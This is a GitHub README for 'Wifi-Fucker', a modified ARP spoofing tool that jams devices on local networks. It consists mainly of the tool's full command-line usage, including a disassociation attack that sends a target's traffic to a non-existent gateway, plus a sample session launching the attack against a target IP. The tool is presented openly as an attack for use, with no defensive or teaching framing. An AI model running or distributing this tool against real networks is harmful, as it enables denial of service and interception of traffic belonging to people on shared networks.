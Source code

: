 # Wifi-Fucker
Jamming wifi devices using ARP spoofing.
## Installation

 1. Clone this repository
 ``
 git clone https://github.com/exeeeeeeeeeeee/Wifi-Fucker.git
 ``
 
 2. Just follow the instructions for use.
 ## Usage
 ```
wifi-fucker.py [-h] [-i INTERFACE] [--attackermac MAC] [--gatemac MAC]
            [--targetmac MAC] [--gateip IP] [--interval TIME] [-d]
            TARGET_IP

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  TARGET_IP                    IP address currently assigned to the target.

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface on the attacker machine to send packets
                        from.
  --attackermac MAC     MAC address of the NIC from which the attacker machine
                        will send the spoofed ARP packets.
  --gatemac MAC         MAC address of the NIC associated to the gateway.
  --targetmac MAC       MAC address of the NIC associated to the target.
  --gateip IP           IP address currently assigned to the gateway.
  --interval TIME       Time in between each transmission of spoofed ARP
                        packets (defaults to 0.5 seconds).
  --disassociate        Execute a disassociation attack in which a randomized
                        MAC address is set for the attacker machine,
                        effectively making the target host send packets to a
                        non-existent gateway.
```
## Example
```
~$ sudo python3 arpspoof.py {target ip}

[>>>] ARP Spoofing configuration:
    [+] Interface       .....................eth0
    [+] Attacker MAC    ........08:92:27:dc:3a:71
    [+] Gateway IP      .................10.0.1.1
    [+] Gateway MAC     ........52:93:d0:92:c5:06
    [+] Target IP       .................10.0.1.6
    [+] Target MAC      ........91:8b:28:93:af:07

[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```
## License
This project is licensed under the terms of the GNU Affero General Public License (AGPL) version 3 or later. See the [LICENSE](./LICENSE) file for details.
## Copyright
This project is based on the original work by [EONRaider](https://github.com/EONRaider) 
Modified by [exeeeeeeeeeeee](https://github.com/exeeeeeeeeeeee).
